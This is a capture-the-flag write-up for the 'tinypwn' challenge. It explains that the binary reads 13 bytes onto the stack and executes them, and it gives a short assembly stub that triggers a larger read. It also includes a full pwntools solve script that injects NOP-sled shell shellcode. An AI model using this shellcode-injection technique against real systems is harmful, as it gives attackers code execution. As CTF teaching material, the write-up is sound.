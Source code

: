 We are given an executable which aparently does nothing and just segfaults.
If we take a look at ghidra, this is the entire executable:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/b735bee0-7d2d-4c87-85fd-5147c47f7d65)

Here it is very handy to understand the Linux x86 calling conventions for system interrupts.  
Basically the program will call an interrupt with 0x3 at EAX (This is the read function), with 0x0 as its file descriptor (this is stdin), the stack pointer as its write destination, and 0xd as the length of read.  
Then it will jump to the stack. What this means is that the program will write 0xd bytes of our input into the stack and execute them. It might be possible to write 13 byte shellcode that executes a shell, whoever,  
I found it easier to set up a larger read, and then execute regular shellcode.  

Setting up a larger read:  
```asm
xor ebx, ebx
push 3
pop eax
push 80
pop edx
int 0x80
```

Then we can just use pwntools' default shellcode for a shell. We will add a NOPsled for good measure.

Final Solve Script:
```python3
from pwn import *
context.arch = 'x86_32'
p = process('./tinypwn')
#p = remote('vsc.tf',3026)

#set up larger read
read_l = asm("""xor ebx, ebx
                push 3
                pop eax
                push 80
                pop edx
                int 0x80""")
log.info(f'Length of first shellcode: {len(read_l)}')

p.sendline(read_l)


#set up shellcode
binsh = shellcraft.i386.linux.sh()
log.info(f"Shellcode: \n{binsh}")
p.sendline(asm('nop')*10+asm(binsh))

p.interactive()
```
